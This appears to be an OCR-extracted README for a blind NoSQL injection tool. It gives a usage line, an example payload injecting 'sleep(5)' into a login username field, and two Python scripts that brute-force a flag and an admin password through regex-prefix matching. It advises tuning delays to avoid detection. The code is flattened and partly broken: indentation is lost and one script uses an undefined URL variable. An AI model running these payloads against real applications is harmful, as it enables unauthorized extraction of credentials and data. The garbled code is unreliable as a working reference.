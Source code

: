 ### Description

This script is used to perform blind NoSQL injection attacks. It takes advantage of the time-based behavior of NoSQL databases to extract information from the database.

### Usage

```bash
$ python blind_nosql.py -u <url> -p <parameter> -d <data> -t <time>
```

### Options

- `-u <url>`: The target URL.
- `-p <parameter>`: The vulnerable parameter.
- `-d <data>`: The data to be injected.
- `-t <time>`: The time delay for the injection (in seconds).

### Example

```bash
$ python blind_nosql.py -u http://example.com/login -p username -d admin' && sleep(5) && '1'=='1 -t 5
```

### Notes

- This script can be used to extract sensitive information from NoSQL databases by exploiting injection vulnerabilities.
- It is important to carefully craft the injected data to ensure the validity of the injected query.
- The time delay should be adjusted based on the response time of the application to avoid detection.
```python
import requests, string

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(21):
print("[i] Looking for char number "+str(i+1))
for char in alphabet:
r = requests.get("http://chall.com?param=^"+flag+char)
if ("<TRUE>" in r.text):
flag += char
print("[+] Flag: "+flag)
break
```

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""

while True:
for c in string.printable:
if c not in ['*','+','.','?','|']:
payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
r = requests.post(u, data = {'ids': payload}, verify = False)
if 'OK' in r.text:
print("Found one more char : %s" % (password+c))
```